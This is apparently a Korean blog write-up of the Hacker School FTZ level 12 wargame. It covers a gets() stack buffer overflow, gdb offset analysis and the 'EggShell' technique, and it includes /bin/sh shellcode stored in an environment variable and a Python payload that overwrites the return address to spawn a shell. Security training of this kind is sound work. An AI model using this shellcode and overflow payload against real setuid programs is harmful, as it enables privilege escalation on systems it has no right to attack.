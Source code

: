 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 12"
description: "Do you know the EggShell?"
comments: true
categories: [FTZ]
tags: [FTZ]
---
```


<img data-action="zoom" src='{{ "assets/ftz/level12/1.jpg" | relative_url }}' alt='relative'>  

## 1) level12/it is like this 입력해 로그인  

<img data-action="zoom" src='{{ "assets/ftz/level12/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

위의 코드를 보면 level11에서 공격했던 프로그램과 유사합니다.  

level11에서는 argv[1]에 들어 있는 값으로 BOF를 발생시켰다면,  
이번 문제에서는 사용자에게 입력을 받는 취약점을 이용해 BOF를 발생시킵니다.  

입력을 받는 경우 최대 입력 길이를 제한하지 않는 gets의 취약점을 이용한 문제입니다.  

## 2) 간단하게 해당 프로그램 살펴보기  

level11에서 봤던 프로그램과 비슷하기 때문에 간단하게 해당 프로그램을 살펴보겠습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/3.png" | relative_url }}' alt='relative'>  

ebp가 가리키는 주소에서 0x108(=264)만큼 떨어진 위치에 str 문자열 배열이 위치합니다.  
즉, str 배열의 시작 주소는 $ebp - 264라고 할 수 있습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/4.png" | relative_url }}' alt='relative'>  

get 함수를 call하는 0x080483d2(\*main+66)에 브레이크 포인트를 잡고 ebp 주소와 str 배열의 주소를 알아봤습니다.  
그리고 get 함수가 실행되고 난 뒤 str 배열에 입력된 값을 확인하기 위해 0x080483d7(\*main+71)에도 브레이크 포인트를 설정했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/5_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_3.png" | relative_url }}' alt='relative'>  

gets 함수의 인자로 str 배열의 주소가 eax 레지스터에 담겨있기 때문에 레지스터 주소를 확인하여 ebp 주소와 eax 주소를 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/6_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_3.png" | relative_url }}' alt='relative'>  

str 배열의 주소와 ebp가 가리키는 주소가 프로그램을 새로 실행할 때마다 달라져도  
str 배열의 주소와 ebp가 가리키는 주소 사이에 0x108 byte 크기만큼 공간이 띄어진 것을 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/7.png" | relative_url }}' alt='relative'>  

``` bash
r <<< $(python -c 'print "AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE"')
```

r은 프로그램을 run 한다는 뜻입니다. run을 하면서 사용자의 입력을 미리 입력 받고 있습니다.  

r 뒤에 '<<<'가 의미하는 것은 오른쪽에 단어를 왼쪽 프로그램에게 표준 입력으로 전달하겠다는 의미입니다.
즉, 표준 입력을 리다이렉션 하는 것입니다.  

``` bash
python -c [command]
```

python의 -c 옵션을 사용해 command로 주어지는 파이썬 문장을 실행시킵니다.  

그래서 총 264 byte 문자열("AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE")이 str 배열에 입력되었습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/8.png" | relative_url }}' alt='relative'>  

gets 함수 실행 전 str 배열에 들어있는 값과 gets 함수 실행 후 str 배열에 들어있는 값을 비교해보면  
gets 함수 실행 후 프로그램 실행 시 입력했던 264 byte 문자열이 입력되어 있는 것을 확인할 수 있습니다.  

gets 함수에서 최대 입력 문자열의 길이를 제한하지 않아 BOF가 발생했습니다.  
str 배열의 길이가 254 byte이지만 264 byte 문자열을 입력 받아 기존에 들어있던 SFP와 RET의 값을 지우고 사용자가 입력한 값으로 채웠습니다.  

return address를 의미하는 RET 위치에  
즉, 0x45454545가 들어있는 주소에 쉘코드가 저장되어 있는 주소를 입력해주면 BOF에 성공합니다.  

## 3) 쉘코드를 어디에 저장?  

위에서 프로그램을 여러 번 실행하면서 str 배열의 주소가 계속해서 바뀌는 것을 확인했습니다.  
str 배열의 주소를 RET 값으로 입력하면 쉘코드를 실행시킬 수 있지만  
str 배열의 주소가 계속해서 바뀌면 RET 주소의 값을 특정하기 어려워집니다.  

이는 메모리 상의 공격을 어렵게 하기 위해 스택, 힙, 라이브러리 등 주소를 랜덤으로 프로세스 주소 공간에 배치해 실행할 때마다 데이터의 주소가 변경되는 기법이 적용됐기 때문입니다.  
즉, ASLR 보호 기법이 적용되어 프로그램이 실행될 때마다 str 배열의 주소가 변경되었습니다.  

level11 문제에서도 ASLR 보호 기법이 적용되어 있어 RET 주소를 변경하며 반복 실행을 했었습니다.  
하지만 ASLR이 적용되어 있어 여러 번 실행해도 쉽게 풀 수 없을 걸로 예상되는데,,,  
그렇다면 ASLR을 우회할 수 있는 더 쉬운 방법은 없을까요?  

<p><a id="env"></a></p>
## 4) 환경 변수 사용하기  

환경 변수는 프로그램을 실행하기 위한 환경 정보를 담고 있습니다.  
> 환경 변수란? 
프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임이다. 
즉, 쉘에서 실행되는 프로그램에 데이터를 전달하는 시스템 내에 저장된 변수이다.  
일반적으로 사용되는 환경변수로는 HOME, PATH, SHELL, USER, bASH, UID, USERNAME 등이 있다.  


환경 변수를 확인하기 위해 env 명령어를 사용하면 됩니다.  
echo $\[환경 변수 이름\]을 입력해 환경 변수 값을 출력하고,  
export \[환경 변수 이름\]을 입력해 환경 변수를 새로 만들거나 수정할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/9.png" | relative_url }}' alt='relative'>  

'ls', 'pwd', 'cd' 명령어를 절대경로로 입력하지 않고도 사용가능한 이유도  
PATH라는 환경 변수에 명령어가 저장되어 있는 디렉토리 주소(/bin/)가 명시되어 있기 때문입니다.  

쉘코드를 환경 변수에 등록해놓고 RET 주소에 쉘코드가 저장되어 있는 환경 변수 주소를 입력하는 것을 EggShell이라고 합니다.  
일반적으로 입력의 크기 또는 버퍼의 크기가 쉘코드의 크기보다 작아서 쉘코드를 입력할 수 없을 때 사용하는 방법입니다.  

이번 문제에서는 입력의 크기도 제한이 없고 버퍼도 쉘코드의 크기보다 크지만 RET 주소를 정확하게 특정하기 위해 EggShell 방법을 사용할 것입니다.   
그래서 환경 변수 이름을 EGG로 지정하여 환경 변수에 쉘코드를 저장한 뒤, EGG 환경 변수가 저장된 위치를 확인했습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/10.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

<img data-action="zoom" src='{{ "assets/ftz/level12/11.png" | relative_url }}' alt='relative'>  

EGG 환경 변수 값이 저장되어 있는 주소는 그림과 같고 해당 환경 변수에는 쉘코드가 저장되어 있습니다.  

## 5) BOF 시도하기  

쉘코드가 저장되어 있는 주소 위치도 찾았으니 BOF 공격을 시도하겠습니다.  

str 배열(254 bytes) + dummy (8 bytes) + SFP (4 bytes) = 268 bytes 이므로  
NOP으로 268 byte를 채우고 RET에 EGG 환경 변수 위치한 주소(=쉘코드가 저장된 주소)를 입력합니다.  

리틀 엔디언 방식으로 저장되기 때문에 0xbffffc88를 입력할 때는 \x88\xfc\xff\xbf로 입력해야 합니다.  

표준 입력을 받는 부분(gets)에 대한 내용을 프로그램 실행 시 입력하기 위해 파이프라인('\|')을 사용합니다.   
이 때는 리다이렉션('>')을 사용하면 안 됩니다.  
만약 리다이렉션으로 입력을 넘겨준다면 입력한 내용이 파일에 저장됩니다. attackme 프로그램의 내용은 다 사라지고 입력된 내용만이 저장될 것입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/12.png" | relative_url }}' alt='relative'>  

리다이렉션을 사용했더니 실행프로그램인 am의 사이즈가 변경되는 것을 확인할 수 있습니다.  
해당 프로그램은 바이너리 파일이 아니라며 실행되지 않습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/13.png" | relative_url }}' alt='relative'>  

실행하는 프로그램에서 표준 입력 받는 부분을 실행시 입력하기 위해선 파이프라인('\|')을 사용해야 합니다.  

``` bash
(python -c 'print "\x90"*268+"\x88\xfc\xff\xbf"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level12/14.png" | relative_url }}' alt='relative'>  

환경 변수를 이용하니 여러 번 반복 수행할 필요없이 깔끔하게 풀 수 있었습니다.  